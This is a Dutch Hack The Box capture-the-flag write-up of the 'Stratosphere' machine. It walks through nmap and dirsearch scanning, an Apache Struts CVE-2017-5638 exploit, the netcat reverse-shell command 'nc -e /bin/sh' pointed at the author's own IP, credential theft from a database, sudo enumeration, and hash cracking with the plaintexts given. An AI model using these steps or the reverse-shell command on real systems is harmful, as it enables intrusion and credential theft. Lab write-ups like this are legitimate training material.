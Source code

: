 # Stratosphere

## Low privilege

Eerst begin ik met een Nmap scan:

``` nmap -sV -p- -T5 -oN 10.10.10.64.nmap```

<img src="https://github.com/lilgio/hackthebox/blob/master/images/stratosphere/1.PNG" />

<ul>
	<li>sV: Probeer versie namen te vinden</li>
	<li>-p-: Scan alle TCP poorten </li>
	<li>-T5: Scan snel en aggresief</li>
	<li>-oN: Save output als Nmap formaat </li>
</ul>


Er is een webserver dus draai ik meteen een dirbsearch scan:

```python3 dirsearch.py -u http://10.10.10.64 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e php -t 25 ```

<img src="https://github.com/lilgio/hackthebox/blob/master/images/stratosphere/2.PNG" />
Argumenten spreken voor zich neem ik aan.

Wanneer ik naar /Monitoring navigeer word ik omgeleid naar http://10.10.10.64/Monitoring/example/Welcome.action. Ik wist niet precies wat er bij .action bestanden hoorden dus had ik dat opgezocht op Google.

<img src="https://github.com/lilgio/hackthebox/blob/master/images/stratosphere/3.PNG" />

Ik lees Struts, dus weet ik genoeg.

```searchsploit -x linux/webapps/41570.py ```

Dit is een Python script dat CVE-2017-5638 probeert te exploiteren.

<img src="https://github.com/lilgio/hackthebox/blob/master/images/stratosphere/4.PNG" />

Hoppa, remote code execution! Het is nu de bedoeling dat ik een shell krijg, en dat is niet zo moeilijk. In plaats van ```echo "Gio" ``` als commando te gebruiken gebruik ik een commando waarmee ik dus een shell kan krijgen. De commando die ik meestal gebruik is: ```nc -e /bin/sh [Mijn tunnel ip] 1234 ```. Maar dit werkt niet, sterker nog geen één reverse shell commando werkt, dit kom waarschijnlijk omdat de script niet kan blijven hangen maar een error gooit. 

Ongeveer 2 uur later is mijn irritatie grens bereikt en probeer ik te kijken of er misschien andere interesante dingen zijn. Het eerste wat ik dan doe is kijken of de webserver database credentials lekt en met deze proberen in te loggen. Ik zie (via het Python script) dat er een ``db_connect`` bestaat, en deze bevatten de database credentials :).

<img src="https://github.com/lilgio/hackthebox/blob/master/images/stratosphere/5.PNG" />

Oké vet, maar ik heb geen shell dus is het niet echt mogelijk om een interactieve MySQL shell te krijgen. Na een tijdje door de man pagina van MySQL te hebben gebladerd kwam ik iets heel interesant tegen:

<img src="https://github.com/lilgio/hackthebox/blob/master/images/stratosphere/6.PNG" />

Hierdoor is het mogelijk om statements uit te voeren zonder een interactieve shell te hebben. Dus, ik weet de credentials van de database en ik heb een manier gevonden om statements uit te voeren.

<img src="https://github.com/lilgio/hackthebox/blob/master/images/stratosphere/7.PNG" />

Dit ziet er héél lekker uit. Hier zie ik een gebruiker genaamd Richard en zijn wachtwoord. Dit zijn vast ook zijn SSH credentials.

<img src="https://github.com/lilgio/hackthebox/blob/master/images/stratosphere/8.PNG" />

Boom, ez lyfe.

## Privilege escalation

Het eerste dat ik doe als ik user ben op een machine is kijken of die user bestanden mag openen als root, dit doe ik doormiddel van de commando `` sudo -l ``

<img src="https://github.com/lilgio/hackthebox/blob/master/images/stratosphere/9.PNG" />

Het ziet er naar uit dat ik `` /home/richard/test.py `` mag uitvoeren als root. eens kijken wat dat script precies doet:

<img src="https://github.com/lilgio/hackthebox/blob/master/images/stratosphere/10.PNG" />

Dit ziet er naar uit dat dit een soort <l>Solve-the-hash(?)</l> challenge is en zodra je alles goed heb het /root/success.py uitvoert. In het script staat precies welke algoritme bij welke hash hoort. ```John``` is een tool die dit voor mij kan oplossen.

Eerste hash: `` john --format=raw-md5 --wordlist=~/rockyou.txt hash # kaybboo!`` <br>
Tweede hash: `` john --format=raw-sha1 --wordlist=~/rockyou.txt hash # ninjaabisshinobi`` <br>
Derde  hash: `` john --format=raw-md4 --wordlist=~/rockyou.txt hash # legend72`` <br>
Vierde hash: `` john --format=raw-blake2 --wordlist=~/rockyou.txt hash # Fhero6610 `` <br>

#### NOTE: Je moet persé de volledige paden gebruiken zoals aangegeven in sudo -l
##### Dus geen `` sudo python test.py`` , maar `` sudo /usr/bin/python3 /home/richard/test.py ``

Oké, ik heb nu van alle hashes de plaintext vorm. Kijken wat er gebeurt als ik het invoer:

<img src="https://github.com/lilgio/hackthebox/blob/master/images/stratosphere/11.PNG" />
